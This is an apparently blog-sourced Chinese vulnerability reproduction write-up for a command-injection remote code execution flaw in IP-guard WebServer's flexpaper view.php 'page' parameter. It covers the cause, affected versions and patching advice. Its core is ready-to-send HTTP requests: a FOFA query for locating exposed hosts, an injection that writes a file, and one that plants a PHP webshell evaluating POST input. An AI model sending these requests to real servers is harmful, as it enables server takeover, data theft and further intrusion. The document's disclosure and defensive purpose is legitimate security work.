






# IP-guard WebServer RCE漏洞复现

### 0x01 产品简介

   IP-guard是由溢信科技股份[有限公司](https://so.csdn.net/so/search?q=%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8&spm=1001.2101.3001.7020)开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化IT系统管理。

### 0x02 漏洞概述

 **漏洞成因**  
    在Web应用程序的实现中，参数的处理和验证是确保应用安全的关键环节。然而，当参数处理不当时，就会出现安全漏洞，给攻击者留下可利用的空间。在此次 IP-guard 的漏洞中，关键问题出现在对某个参数的处理上。该参数原本用于指定要查看的文档页面。但由于未对输入进行适当的过滤和限制，攻击者能够通过命令注入的方式，利用该参数在服务器上执行任意命令。  
**利用特征**  
   针对这个漏洞，从流量层面的利用特征表现在不寻常的HTTP GET请求中。在正常情况下，这个存在漏洞的参数应该只包含数字或预定义格式的数据，用于指定文档的特定页面。然而在攻击流量中，该参数的值包含了操作系统命令，这些命令通常以特殊字符（如管道符 ||）开始，后跟可执行的系统命令。  
**漏洞影响**  
   该漏洞的成功利用允许攻击者在服务器上远程执行命令，导致服务器完全被接管。同时，攻击者不仅可以利用漏洞获取对服务器的控制权，进而还可能访问或删除敏感数据，植入恶意软件，甚至使用服务器作为发起进一步攻击的跳板。

### 0x03 影响范围

 IP-guard < 4.81.0307.0

### 0x04 复现环境

FOFA："IP-guard" && icon\_hash="2030860561"



### 0x05 漏洞复现

PoC

```cobol
GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=1.jpg&format=swf&isSplit=true&page=||echo+123456+>1.txt HTTP/1.1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

写文件 



验证 

```cobol
GET /ipg/static/appr/lib/flexpaper/php/1.txt HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

 **漏洞利用**

 写WebShell

```cobol
GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=1.jpg&format=swf&isSplit=true&page=||echo+^<?php+@mb_eregi_replace('.*',$_POST['a'],'','ee');?^>+>1.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```



验证



###  0x06 修复建议

**临时缓解方案**  
    配置入侵检测系统（IDS）和入侵防御系统（IPS）以及Web应用防火墙（WAF），以识别和阻止包含这类特征的请求，从而保护系统免受此类远程命令执行攻击的影响；同时为了避免攻击者绕过安全设备实施攻击，建议尽快修复漏洞。  
   如非必要，不要将 IP-guard 放置在公网上。或通过网络ACL策略限制访问来源，例如只允许来自特定IP地址或地址段的访问请求。  
**升级修复方案**  
   官方已发布新版本修复漏洞，建议尽快访问官网（https://www.ip-guard.net/）或联系官方售后支持获取版本升级安装包或补丁，升级至4.81.0307.0版本及以上
